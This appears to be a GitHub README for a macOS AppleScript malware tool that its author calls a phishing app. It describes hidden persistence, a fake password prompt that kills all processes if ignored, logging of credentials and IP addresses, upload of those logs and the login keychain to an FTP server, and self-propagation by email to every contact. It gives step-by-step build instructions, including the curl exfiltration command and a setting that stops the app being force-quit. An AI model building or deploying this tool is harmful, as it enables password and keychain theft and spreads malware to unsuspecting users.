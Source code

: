 Benb116's Phishing app for Mac
==========================

**Use this tool at your own risk. Don't do anything illegal. I do not accept any responsibility for any damages or harm done. This is purely an educational endeavor (for me).**

This is a phishing app that I wrote. It is written in applescript, which is important because it shows that potentially harmful tools can be written using a simple language and relatively limited programming knowledge. It is small and works on macs, whose users often don't worry about malware on their computers. This makes the app more effective, especially when disguised as a music file or photo. 

**Here's what it does:**

* It makes a new hidden directory in the user's public folder, then checks for a killswitch
* It copies a duplicate of itself to the folder and sets it as a login item
* It prompts the user to enter their password into a dialog box. If the user doesn't enter it within 10 seconds, the script sets itself as a login item, then kills all user processes, making the user have to restart in order to use the computer.
![image](http://f.cl.ly/items/3E0x2P0l452W2B1p2T0m/Prompt.png)
*  It copies the password, username, date, WAN IP, and LAN IP to a text file in the hidden folder in the user's public folder ![image](http://cl.ly/KB3S/Screenshot%202012-10-16%20at%206.47.02%20AM.jpg)
*  It uploads this file to an FTP server
*  It copies the user's login keychain into the same folder and uploads it to the same FTP server
*  It sends an email to all of the user's contacts' emails with the app attached.

The script is saved as an application with a duplicate application inside of it. It copies the inner application to the hidden folder and sets it as a login item.

 **Please feel free to test the script by doing the following:**

1. In 'App.applescript' and 'Updater.applescript' find the command that uploads the text file to an FTP server.
2. Replace the parts of the code in '<>' with your information.
	
				tell application "Finder" to do shell script "curl -T ~/Public/" & ufld & "" & theuser & ".txt -u <User>:<Password> ftp://<ftp address></path/to/folder/>" & theuser & "_" & WANIP & "_" & dte & ".txt" -- Upload text file to FTP server
		
	becomes
	
			tell application "Finder" to do shell script "curl -T ~/Public/" & ufld & "" & theuser & ".txt -u Benb116:1234 ftp://123.456.789.0/Desktop/Passwords/" & theuser & "_" & WANIP & "_" & dte & ".txt" -- Upload text file to FTP server3. Repeat steps 1 and 2 in both files with the command that uploads the keychain file.
4. Save App.applescript as an application (example name "App.app")
5. Add the following 2 lines of code to the "info.plist" file in "App.app/Contents/" folder

		<key>NSUIElement</key>
        <string>1</string>
(this prevents a dock icon from appearing and also makes it impossible to force quit the app)
6. Add the file "icon.icns" to the resources folder of "App.app"
7. Save Updater.applescript as an application named "Updater.app"
8. Repeat step 5 and 6 for "Updater.app"
9. Copy Updater.app to the resources folder "App.app"

The resources folder of the "App.app" should look something like this:

![image](http://f.cl.ly/items/2e1H2C3p1L401D1a3944/Screen%20Shot%202012-12-18%20at%207.55.22%20PM.png)
